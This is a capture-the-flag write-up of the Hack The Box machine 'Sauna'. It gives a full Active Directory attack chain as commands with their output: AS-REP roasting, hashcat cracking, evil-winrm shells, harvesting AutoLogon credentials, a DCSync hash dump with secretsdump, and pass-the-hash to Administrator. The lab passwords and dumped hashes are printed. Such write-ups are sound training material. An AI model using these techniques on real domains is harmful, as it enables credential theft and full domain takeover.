


---
tags:
  - passthehash
  - ad_dcsync
  - asreproasting
group: ActiveDirectory
---


- Machine : https://app.hackthebox.com/machines/Sauna
- Reference : https://0xdf.gitlab.io/2020/07/18/htb-sauna.html
- Solved : 2024.12.24. (Tue) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
	- **Port Scanning**:
	    - Identified critical services: DNS (53), Kerberos (88), LDAP (389/3268), SMB (445), and WinRM (5985).
	    - Confirmed domain name: `EGOTISTICAL-BANK.LOCAL`.
	- **User Discovery**:
	    - Extracted potential usernames from the organization's website.

2. **AS-REP Roasting**
	- Used `impacket-GetNPUsers` to identify the user `fsmith` with the `UF_DONT_REQUIRE_PREAUTH` flag.
	- Extracted Kerberos AS-REP hash for `fsmith` and cracked it using `hashcat` to retrieve the password: `Thestrokes23`.

3. **Access via WinRM**
	- Gained initial access by logging into the system as `fsmith` using `evil-winrm`.

4. **Privilege Escalation**
	- Discovered AutoLogon credentials (`svc_loanmgr` with password `Moneymakestheworldgoround!`) using `winPEAS`.
	- Logged in as `svc_loanmgr` via `evil-winrm`.
	- **DCSync Attack**:
	    - Identified `svc_loanmgr`'s `DCSync` privileges using `BloodHound`.
	    - Extracted NTLM hashes of the `Administrator` account using `impacket-secretsdump`.

5. **Administrative Access**
	- Used `Administrator`'s NTLM hash to authenticate via `evil-winrm` and gained full administrative access to the system.

### Key Techniques:

- **Enumeration**: Retrieved usernames and domain details via Kerberos and web.
- **AS-REP Roasting**: Cracked AS-REP hashes from accounts without Pre-Authentication.
- **AutoLogon Abuse**: Extracted plaintext credentials.
- **DCSync Attack**: Retrieved domain secrets via replication permissions.
- **Pass-the-Hash**: Used NTLM hashes for admin access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.175
Performing quick port scan on 10.10.10.175...
Found open ports: 53,80,88,135,139,389,445,464,593,636,3268,5985,9389,49667,49673,49674,49675,49689,49697
Performing detailed scan on 10.10.10.175...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 03:15 EST
Nmap scan report for 10.10.10.175
Host is up (0.39s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-24 15:15:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| smb2-time: 
|   date: 2024-12-24T15:16:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.41 seconds
```

- Given the open ports, it's probably a AD Domain controller.
- Web server is running on port 80 which allows `TRACE` method.
- Domain name is `EGOTISTICAL-BANK.LOCAL`. Let's add this to `/etc/hosts`.

### http(80)


It's a web page which looks like a bank web.
I explored the web, and found potential users from `about` page.


Here I can make a name list.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat names.txt 
Fergus Smith
Hugo Bear
Steven Kerb
Shaun Coins
Bowie Tayler
Sophie Driver
```


# Shell as `fsmith`

### AS-REP Roasting

Using "Username-anarchy" repository, I can create a potential username list.

```bash
┌──(kali㉿kali)-[~/htb/username-anarchy]
└─$ ruby username-anarchy -i ../names.txt > ../usernames.txt

┌──(kali㉿kali)-[~/htb]
└─$ head usernames.txt 
fergus
fergussmith
fergus.smith
fergussm
fergsmit
ferguss
f.smith
fsmith
sfergus
s.fergus

┌──(kali㉿kali)-[~/htb]
└─$ wc -l usernames.txt 
88 usernames.txt
```

With this username list, let's try `AS-REPRoasting` attack.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.10.10.175 s -usersfile usernames.txt -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

<SNIP>
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:d7a4f48fa028a3302e21e5757fe3ba3a$fb91ccc189806e7f88e14f03a02df47703efc178bc5cb09492ffa547126de9b7aa2148d006466795c890e5e115dee5f6b7138282432f702fc416993724f8205ce787421ea5fb14a18dda7e45c035194cd9a60e5d1047eb6b55d6e5ced7a81ff4bdb7ec226e5037615a1d1de046a38a439596630272adb2c1f2dc4c23fa7f6ee9a2e6e9423c3ae9bc27db73a1905fc7f8c8e559e26c19b2397cfbd0d26381b577120d80af846cf87101311a5701f2dd394ceaadc7a1a3310634210c68e7260004992f9c455550937f4ce6efa475a2148b8f30c3e67d7f0eebe8fa0ff6d7c75f9b39ee4f5fe0cde7b8195606442a217b90cb4907941154e4c028aff09733f34272
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
<SNIP>
```

It returns `fsmith`'s hash.
Let's crack this using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 18200 fsmith.asrep /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

<SNIP>
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:d7a4f48fa028a3302e21e5757fe3ba3a$fb91ccc189806e7f88e14f03a02df47703efc178bc5cb09492ffa547126de9b7aa2148d006466795c890e5e115dee5f6b7138282432f702fc416993724f8205ce787421ea5fb14a18dda7e45c035194cd9a60e5d1047eb6b55d6e5ced7a81ff4bdb7ec226e5037615a1d1de046a38a439596630272adb2c1f2dc4c23fa7f6ee9a2e6e9423c3ae9bc27db73a1905fc7f8c8e559e26c19b2397cfbd0d26381b577120d80af846cf87101311a5701f2dd394ceaadc7a1a3310634210c68e7260004992f9c455550937f4ce6efa475a2148b8f30c3e67d7f0eebe8fa0ff6d7c75f9b39ee4f5fe0cde7b8195606442a217b90cb4907941154e4c028aff09733f34272:Thestrokes23

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:d7a4f48...f34272
<SNIP>
```

It cracked the hash : `Thestrokes23`
Let's open an interactive shell using `evil-winrm`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith
```

I got a `fmisht`'s shell.


# Shell as `svc_loanmgr`

### Enumeration

Let's run `winPEASx64.exe` to automate enumeration.

```powershell
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEASx64.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help  


ÉÍÍÍÍÍÍÍÍÍ͹ Users
È Check if you have some admin equivalent privileges https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#users-and-groups
  [X] Exception: Object reference not set to an instance of an object.
  Current user: FSmith
  Current groups: Domain Users, Everyone, Builtin\Remote Management Users, Users, Builtin\Pre-Windows 2000 Compatible Access, Network, Authenticated Users, This Organization, NTLM Authentication


ÉÍÍÍÍÍÍÍÍÍ͹ Home folders found
    C:\Users\Administrator
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\FSmith : FSmith [AllAccess]
    C:\Users\Public
    C:\Users\svc_loanmgr


ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

It reveals that there's another user `svc_loanmanager` of which AutoLogon is enabled.
I don't know why, but the username `svc_loanmanager` and `svc_loanmgr` are different.
Also, it shows default password : `Moneymakestheworldgoround!`

I tried both username and `svc_loanmgr` worked!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami
egotisticalbank\svc_loanmgr
```

I got `svc_loanmgr`'s shell!


# Shell as `Administrator`

### Enumeration

Let's run `winPEASx64.exe` again.

```powershell
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> .\winPEASx64.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help    


ÉÍÍÍÍÍÍÍÍÍ͹ Users
È Check if you have some admin equivalent privileges https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#users-and-groups
  [X] Exception: Object reference not set to an instance of an object.
  Current user: svc_loanmgr
  Current groups: Domain Users, Everyone, Builtin\Remote Management Users, Users, Builtin\Pre-Windows 2000 Compatible Access, Network, Authenticated Users, This Organization, NTLM Authentication


ÉÍÍÍÍÍÍÍÍÍ͹ Current Token privileges
È Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#token-manipulation                                                               
    SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
```

It doesn't have any useful with this.
Let's run `BloodHound` to find more details.

This time, I checked the user `loan_mgr`'s OUTBOUND Object Control.



It has 3 permissions : `DCSync`, `GetChangesAll`, `GetChanges`

### DCSync Attack

Among these, let's try using `DCSync` permission for privilege escalation.



According to BloodHound, I can use `impacket-secretsdump` to exploit `DCSync` permission.
Let's try this.

```makefile
┌──(kali㉿kali)-[~/htb]
└─$ impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:6636fe05ca3cbcd0872619461eabf710:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:db00715f9532a783de8799868e08447db96dfea7b2d714edb6679975ec294ed2
SAUNA$:aes128-cts-hmac-sha1-96:3335a6fe28f2380aeaff67c0f0040a3b
SAUNA$:des-cbc-md5:0d86e59bf7d0192f
[*] Cleaning up... 
```

It successfully extract hashes from the AD system.

### Pass the Hash(PtH) attack

With `Administrator`'s NT hash, let's try Pass-The-Hash attack.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.175 -u 'Administrator' -H '823452073d75b9d1cf70ebdf86c7f98e'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
egotisticalbank\administrator
```

I got an `administrator`'s shell!